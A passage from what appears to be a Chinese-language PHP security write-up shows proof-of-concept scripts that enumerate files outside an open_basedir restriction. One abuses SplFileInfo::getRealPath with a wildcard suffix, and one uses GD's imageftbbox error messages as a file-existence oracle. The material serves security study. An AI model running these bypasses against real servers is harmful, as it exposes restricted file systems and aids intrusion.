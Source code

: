 ``` php
for ($i=0; $i < strlen($chars); $i++) {
    $info = new SplFileInfo($basedir . $chars[$i] . '<><');
    $re = $info->getRealPath();
    if ($re) {
        dump($re);
    }
}
function dump($s){
    echo $s . '<br/>';
    ob_flush();
    flush();
}
?>
```
只是把之前的POC稍作修改，同样列出了D:/test下的文件：  
![dir5](../pictures/phpdirt5.png)  
这个方法有个特点，不管是否开启open_basedir都是可以枚举任意目录的。而上一个方法（realpath）只有在开启open_basedir且在  open_basedir外的时候才会报错，才能列举目录。当然，没有开启open_basedir的时候也不需要这样列举目录了。  

## 0x05 GD库imageftbbox/imagefttext列举目录
GD库一般是PHP必备的扩展库之一，所以我在寻找open_basedir的时候也会看看这些有用的扩展库。  
我拿imageftbbox举个例子，这个函数第三个参数是字体的路径。我发现当这个参数在open_basedir外的时候，当文件存在，则php会抛出“File(xxxxx) is not within the allowed path(s)”错误。但当文件不存在的时候会抛出“Invalid font filename”错误。  
也就是说，我们可以通过抛出错误的具体内容来判断一个文件是否存在。这个方法和realpath有相似性，都会抛出open_basedir的错误。  
我也修改了个简单的POC：  
``` php
<?php
ini_set('open_basedir', dirname(__FILE__));
printf("<b>open_basedir: %s</b><br />", ini_get('open_basedir'));
set_error_handler('isexists');
$dir = 'd:/test/';
$file = '';
$chars = 'abcdefghijklmnopqrstuvwxyz0123456789_';
for ($i=0; $i < strlen($chars); $i++) {
    $file = $dir . $chars[$i] . '<><';
    //$m = imagecreatefrompng("zip.png");
    //imagefttext($m, 100, 0, 10, 20, 0xffffff, $file, 'aaa');
    imageftbbox(100, 100, $file, 'aaa');
}
function isexists($errno, $errstr)
{
    global $file;
    if (stripos($errstr, 'Invalid font filename') === FALSE) {
        printf("%s<br/>", $file);
    }
}
?>
```
同样列举一下d:/test  